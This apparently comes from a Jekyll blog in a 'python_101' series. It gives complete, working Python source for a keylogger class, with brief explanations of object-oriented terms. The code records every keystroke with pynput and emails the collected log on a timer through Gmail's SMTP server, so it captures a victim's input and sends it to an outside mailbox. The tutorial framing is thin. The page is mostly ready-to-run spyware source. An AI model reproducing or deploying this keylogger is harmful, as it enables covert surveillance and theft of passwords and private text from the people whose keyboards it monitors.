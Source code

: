 ```yaml
---
title: keylogger class
permalink: /permalinks/keylogger/keylogger
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


# This script includes all methods and classes used by the keylogger.

Each function within a class is termed a method.
When instantiating an object instance as a class, automatically the methods are invoked and hence the first attribute of each method is named "self".
Call objects defined within a class using : `self.obj`.
A Constructor is automatically executed when a class is created.
An Attribute is a variable that can be used within the whole class and by its respective methods. (This is a secure alternative to using global definitions.)


### Code: 

```python
#!/usr/bin/env python

import pynput.keyboard
import threading
import smtplib
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-t", "--time-interval", dest="interval", help="Time Interval to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.interval:
        # code to handle error
        parser.error("\n[-] Please specify a valid Time Interval,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options

class Keylogger:
    # Constructor definition
    def __init__(self, time_interval, email, password):
        # Attribute definition
        self.log = "[!] Keylogger Started"
        self.interval = time_interval
        self.email = email
        self.password = password

    def append_to_log(self, string):
        self.log = self.log + string

    def process_key_press(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            # Replace key.space as space
            if key == key.space:
                current_key = " "
            else:
                # Space special chars out
                current_key = " " + str(key) + " "
        self.append_to_log(current_key)


    # Recursive function
    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        # Reset
        self.log = ""
        # Running timer on an alternate thread
        # Wait for 5 secs and report
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    # Create SMTP server instance to send email
    def send_mail(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    # Start keylogger
    def start(self):
        # Create instance
        keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
        # Start listener
        with keyboard_listener:
            self.report()
            keyboard_listener.join()

banner = """
    
|      ___           __   __   __   ___  __  
|__/ |__  \ / |    /  \ / _` / _` |__  |__) 
|  \ |___  |  |___ \__/ \__> \__> |___ |  \ 
                                            
[!] Keylogger Started >.<
  """
```